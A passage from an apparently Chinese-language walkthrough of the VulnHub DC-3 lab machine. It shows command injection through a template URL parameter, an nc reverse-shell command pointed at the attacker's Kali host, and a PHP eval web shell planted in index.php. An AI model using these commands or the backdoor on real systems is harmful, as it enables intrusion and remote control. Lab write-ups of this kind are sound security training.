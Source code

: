 ![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/10.png)

尝试访问模板预览 `http://192.168.141.138/index.php?tp=1&templateStyle=4&cmd=whoami`

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/11.png)

ok，命令成功执行，下面直接准备回弹 shell

kali 开启监听
```bash
nc -lvp 4444
```

访问 `http://192.168.141.138/index.php?tp=1&templateStyle=4&cmd=nc%20-nv%20192.168.141.134%204444%20-e%20/bin/bash`

等待了半天,没弹回来,什么鬼,换个回弹方法试试,回弹方法见 [后渗透](../../../笔记/RedTeam/后渗透.md#linux下获取shell) linux 下获取 shell 部分

注: 这里试了半天,用了很多方法都没有回弹成功,只好暂时另辟蹊径了

到 index.php 里加个一句话把
```php
<?php eval($_POST[1]);?>
```
